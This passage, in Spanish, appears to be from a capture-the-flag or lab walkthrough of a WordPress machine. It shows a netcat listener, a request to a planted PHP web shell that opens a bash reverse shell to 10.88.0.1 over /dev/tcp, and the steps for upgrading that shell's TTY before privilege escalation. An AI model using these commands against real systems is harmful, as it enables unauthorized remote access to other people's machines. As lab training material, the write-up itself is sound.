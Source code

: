 Antes de enviar la solicitud no olvidemos lanzar un `listener` con `nc`

~~~ bash
nc -lvnp 443
~~~

![Pasted image 20241031002132](https://github.com/user-attachments/assets/20ba7f03-2dd1-4a88-b295-2403be8f0344)

Finalmente ejecutamos...

~~~ bash
http://norc.labs/wp-content/themes/twentytwentythree/patterns/hidden-404.php?cmd=bash -c "bash -i >%26%2Fdev%2Ftcp%2F10.88.0.1%2F443 0>%261"
~~~

![Pasted image 20241031002450](https://github.com/user-attachments/assets/6d02c8fe-2891-4575-a4df-9c19dbe97341)

![Pasted image 20241031002907](https://github.com/user-attachments/assets/eafd483b-7cc4-4c41-82f3-b41e26f1ea64)


# Escalada de privilegios
---
## Tratamiento de la TTY

Haremos un procedimiento para poder tener una consola más interactiva (`Ctrl + C`, `Ctrl + L`), en la máquina víctima ejecutamos los siguientes comandos

~~~ bash
script /dev/null -c bash
export TERM=xterm
~~~

En este punto presionamos  CTRL + Z, volveremos a nuestra máquina, solamente hemos dejado el proceso en segundo plano

~~~ bash
stty raw -echo; fg
~~~

Una vez volvimos a la `reverse shell`, volvemos a iniciar la terminal

~~~ bash
reset xterm
~~~

Por último debemos ajustar el tamaño de la terminal, vemos nuestras proporciones en **nuestra máquina**

~~~ bash
stty size
~~~

~~~ bash
22 85
~~~

Ahora usamos la salida de este comando para ajustar las proporciones en la `reverse shell`, las dimensiones podrán variar de acuerdo con el tamaño de tu ventana en la terminal

